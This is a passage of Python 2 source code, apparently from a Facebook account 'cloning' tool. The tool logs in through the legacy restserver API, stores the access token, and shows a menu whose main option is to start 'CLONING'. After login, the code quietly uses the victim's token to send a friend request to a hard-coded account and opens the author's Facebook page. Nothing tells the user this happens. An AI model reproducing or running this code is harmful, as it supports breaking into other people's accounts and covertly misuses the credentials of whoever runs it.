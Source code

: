 				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m\x1b[1;92mLogin Successful'
				os.system('xdg-open https://www.facebook.com/Anonymoustricker1')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m \x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m \x1b[1;91mIt seems that your account has a checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m \x1b[1;91mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m \033[1;91mIt seems that your account has a checkpoint"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m \x1b[1;91mThere is no internet connection"
		keluar()
	os.system("clear")
	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start CLONING WITH DJ"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
	pilih()
def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":